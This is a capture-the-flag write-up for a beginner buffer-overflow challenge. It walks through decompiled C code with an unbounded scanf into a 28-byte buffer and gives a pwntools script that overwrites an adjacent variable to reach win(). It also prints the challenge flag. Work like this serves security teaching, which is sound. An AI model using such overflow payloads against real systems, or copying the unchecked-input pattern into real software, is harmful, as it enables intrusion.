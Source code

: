 # intro 

## Description: 

* Welcome to pwn city :) 

## Objective: 

* Take advantage of *Bof* to overwrite the value of `check` and call `win()`.

## Flag: :black_flag:
* UNIWA{w3lc0M3_2_pwN_c1TY_fr13nd!}

## Challenge:

The interface looks like this:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/intro$ ./intro 
Welcome to pwn city!
This is just an intro level to warm up.
Please enter your name:
> w3t
Nice to meet you w3t!
```

 Nothing more to see here, let's disassemble the program.

### Disassembly :pick:

We start from `main()`:

```c
undefined8 main(void)

{
  undefined local_28 [28];
  int local_c;
  
  setup();
  local_c = -0x21524111;
  printf(
        "Welcome to pwn section!\nThis is just an intro level to warm up.\nPlease enter yourname:\n> "
        );
  __isoc99_scanf(&DAT_00100a43,local_28);
  if (local_c == -0x3f214542) {
    win();
  }
  printf("Nice to meet you %s!\n",local_28);
  return 0;
}
```

We see that there is a call to `win()`.

`win():`

```c
void win(void)

{
  puts("Congratulations! Here is your flag!");
  system("cat flag*");
  return;
}
```

We see that there is a *bof* at `scanf`, that we can take advantage of.

The buffer is 28 bytes and `scanf` reads unlimited bytes. 

We can do 2 things:

* Overflow the buffer and change the value of `local_c` in order to call `win`.
* Overflow the buffer and overwrite the return address in order to call `win`.

I just changed the value that is after the buffer as we can see from the disassembly.

### Exploit :scroll:

```python
#!/usr/bin/python3
from pwn import *

ip = 'ctf.uniwa.gr' # change this
port = 6969 # change this
fname = './intro'

LOCAL = False

if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

ru = lambda x : r.recvuntil(x)
sla = lambda x,y : r.sendlineafter(x,y)

def pwn():
	junk = b'i'*28
	payload = junk + p64(0xc0debabe)
	sla('>', payload)
	ru('{')[:-1]
	flag = ru('}')
	print('Flag: UNIWA{' + flag.decode())

if __name__ == '__main__':
	pwn()
```

### PoC: :checkered_flag:

```sh
w3th4nds@void:~/github/UniWA_CTF_2020-2021/pwn/intro$ ./exp.py 
[+] Starting local process './intro': pid 6846
Flag: UNIWA{w3lc0M3_2_pwN_c1TY_fr13nd!}
```
